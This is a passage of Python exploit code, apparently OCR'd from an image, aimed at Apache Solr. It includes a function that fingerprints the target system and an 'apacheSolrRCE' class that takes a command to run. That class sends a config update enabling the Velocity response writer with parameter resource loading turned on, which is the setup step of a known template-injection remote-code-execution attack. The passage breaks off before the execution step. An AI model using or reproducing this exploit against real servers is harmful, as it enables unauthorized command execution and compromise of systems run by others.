         def get_system(self):
            payload = {
                '_': self.timestamp,
                'wt': 'json'
            }
            url = 'http://' + self.ip + ':' + self.port + '/solr/admin/info/system'
            try:
                system_info = requests.get(url=url, params=payload, timeout=5)
                os_name = system_info.json()['system']['name']
                os_uname = system_info.json()['system']['uname']
                os_version = system_info.json()['system']['version']
                state = 1

            except:
                os_name = ''
                os_uname = ''
                os_version = ''
                state = 0

            return {
                'system': {
                    'name': os_name,
                    'uname': os_uname,
                    'version': os_version,
                    'state': state
                }
            }


    class apacheSolrRCE(object):

        def __init__(self, ip, port, node, command):
            self.ip = ip
            self.port = port
            self.node = node
            self.command = command
            self.url = "http://" + self.ip + ':' + self.port + '/solr/' + self.node

        def init_node_config(self):
            url = self.url + '/config'
            payload = {
                'update-queryresponsewriter': {
                    'startup': 'lazy',
                    'name': 'velocity',
                    'class': 'solr.VelocityResponseWriter',
                    'template.base.dir': '',
                    'solr.resource.loader.enabled': 'true',
                    'params.resource.loader.enabled': 'true'
                }
            }
            try:
                res = requests.post(url=url, data=json.dumps(payload), timeout=5)
                if res.status_code == 200:
                    return {
                        'init': 'Init node config successfully',
                        'state': 1
                    }
                else:
                    return {
                        'init': 'Init node config failed',
                        'state': 0
                    }
            except:
                return {
                    'init': 'Init node config failed',
                    'state': 0
